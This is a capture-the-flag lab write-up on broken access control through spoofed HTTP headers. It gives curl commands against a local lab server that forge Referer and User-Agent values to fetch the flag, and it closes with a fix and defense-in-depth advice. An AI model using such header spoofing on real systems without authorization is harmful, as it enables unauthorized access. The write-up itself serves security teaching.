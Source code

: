 # Broken Access Control via HTTP headers spoofing

## 📖 Vulnerability Explanation
The app grants access to a resource (in this case the flag), using HTTP headers. An attacker can spoof these headers to trick the server. 

## ⚙️ Exploitation Process
We can see two comments containing hints on how we should make the requests.
- The following command shows only the comments in the HTML code:
```
curl -s 'http://localhost:9090/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' | grep -v '^$' | grep -A 2 '<!--'
```
This reveals two interesting statements:
1. ```You must come from : "https://www.nsa.gov/".```: This suggests the use of the Referer HTTP header, which is used to specify the previous url visited by the user. 
2. ```Let's use this browser : "ft_bornToSec". It will help you a lot.```: This refers to the User-Agent header, used to provide information about the program used to send the request.
---
- We can get the flag by specifying these headers in the request:
```
curl -s -H 'Referer: https://www.nsa.gov/' -H 'User-Agent: ft_bornToSec' 'http://localhost:9090/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' | grep flag
```

## 🔧 Fix
The server should never rely on modifiable data provided by the user for authentication, such as HTTP headers. In order to protect a resource, it's necessary to validate proper user permissions.

## ☝️🤓 Advanced explanation
It is also possible to protect public resources against bulk automated requests (like scraping or brute-force) by inspecting HTTP headers. While these headers should never be used for access control, they can help detect suspicious behavior patterns.

For example, blocking requests checking missing User-Agent or Referer headers can slow down or stop bots.

> This is not a security control, but a defense in depth strategy to protect public resources
